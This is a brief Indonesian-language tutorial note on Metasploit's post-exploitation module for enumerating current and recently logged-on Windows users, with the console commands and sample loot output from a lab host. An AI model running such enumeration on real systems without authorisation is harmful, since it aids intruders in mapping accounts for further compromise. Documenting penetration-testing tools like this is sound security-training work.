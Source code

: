 # enum_logged_on_users

Modul `enum_logged_on_users` di Metasploit adalah modul `post-exploitation` untuk sistem Windows yang digunakan untuk mengumpulkan informasi tentang pengguna yang sedang atau pernah login ke sistem target. 

## Cara Penggunaan di Metasploit

```
use post/windows/gather/enum_logged_on_users
set SESSION <ID>
set VERBOSE true
run
```

Hasil output-nya seperti ini:

```
[*] Running module against ADMIN-PC (192.168.1.52)

Current Logged Users
====================

 SID                                            User
 ---                                            ----
 S-1-5-21-902510507-3351294807-2611561610-1001  admin-PC\admin


[+] Results saved in: /root/.msf4/loot/20250516135748_default_192.168.1.52_host.users.activ_396388.txt

Recently Logged Users
=====================

 SID                                            Profile Path
 ---                                            ------------
 S-1-5-18                                       C:\Windows\system32\config\systemprofile
 S-1-5-19                                       C:\Windows\ServiceProfiles\LocalService
 S-1-5-20                                       C:\Windows\ServiceProfiles\NetworkService
 S-1-5-21-902510507-3351294807-2611561610-1001  C:\Users\admin


[+] Results saved in: /root/.msf4/loot/20250516135749_default_192.168.1.52_host.users.recen_115957.txt
[*] Post module execution completed
```
